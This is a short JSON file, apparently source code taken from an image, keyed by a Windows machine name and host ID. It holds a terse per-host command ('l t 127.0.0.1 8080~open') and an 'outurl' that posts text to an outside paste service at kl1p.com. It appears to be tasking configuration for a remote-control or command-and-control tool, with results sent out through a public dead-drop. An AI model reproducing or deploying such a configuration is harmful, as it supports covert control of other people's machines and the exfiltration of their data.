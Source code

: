 {
    "INTEL-PC": {
        "WIN-MK2U04MLL3I": "l t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/qwokc?save=true&id=&type=plain&name=qwokc&nid=&param=&client=web&text="
    }
}
